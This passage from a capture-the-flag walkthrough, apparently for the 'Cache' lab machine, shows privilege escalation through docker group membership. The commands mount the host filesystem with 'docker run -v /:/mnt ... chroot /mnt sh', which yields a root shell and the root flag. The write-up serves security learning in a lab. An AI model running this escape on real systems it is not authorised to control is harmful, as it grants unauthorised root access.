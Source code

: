 ```
END
```

Now that we have credentials for luffy, we can `su` to them and do some more enumeration. One of the first things we notice about luffy's account is that they are part of the `docker` group.

```
ash@cache:/tmp$ su luffy
Password: 
luffy@cache:/tmp$ groups
luffy docker
```

On the [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) entry for docker, we see that a user being in the `docker` group can break out of the process and spawn a shell. We will try this.

```
luffy@cache:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
docker: Error response from daemon: Get https://registry-1.docker.io/v2/: dial tcp: lookup registry-1.docker.io: Temporary failure in name resolution.
See 'docker run --help'.
```

Since the box cannot reach out to the docker registry, it cannot download the alpine image it needs. Lucky for us, the system has an ubuntu image on it already which can also be used to get the shell so we can read the root flag.

```
luffy@cache:~$ docker images                                      
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        8 months ago        64.2MB
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
# whoami
root
# cat /root/root.txt
81acec**************************
```
